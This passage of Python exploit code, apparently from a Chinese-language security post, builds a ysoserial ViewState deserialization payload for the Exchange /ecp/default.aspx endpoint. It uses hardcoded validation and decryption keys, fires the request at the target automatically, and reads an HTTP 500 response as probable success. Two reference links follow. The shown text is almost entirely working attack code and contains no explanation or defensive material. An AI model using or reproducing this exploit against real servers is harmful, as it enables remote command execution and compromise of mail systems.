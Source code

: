 ```
    view, key, base_url = get_value(url, user, pwd)
    if key is None:
        key = 'test'
        sys.exit(1)
    ex_payload = """ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "{}" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="{}" --viewstateuserkey="{}" --islegacy """.format(command,view,key)
    if args.encrypt:
        re_payload = ex_payload + ' --decryptionalg="3DES" --decryptionkey="E9D2490BD0075B51D1BA5288514514AF" --isencrypted'
    else:
        re_payload = ex_payload + " --isdebug"
    print("\n"+re_payload)
    out_payload = ysoserial(re_payload)
    if args.encrypt:
        final_exp = "{}/ecp/default.aspx?__VIEWSTATEENCRYPTED=&__VIEWSTATE={}".format(base_url, quote(out_payload))
    else:
        final_exp = "{}/ecp/default.aspx?__VIEWSTATEGENERATOR={}&__VIEWSTATE={}".format(base_url, view, quote(out_payload))
    print("\n[+] Exp url: {}".format(final_exp))
    print("\n[*] Auto trigger payload..")
    status = session.get(final_exp,verify=False,timeout=15)
    if status.status_code==500:
        print("[*] Status code: %i, Maybe success!" % status.status_code)

if __name__ == "__main__":
    main() 
```

## 参考链接

> [https://www.anquanke.com/post/id/199772](https://www.anquanke.com/post/id/199772)
> 
> [https://www.t00ls.net/thread-55149-1-1.html](https://www.t00ls.net/thread-55149-1-1.html)

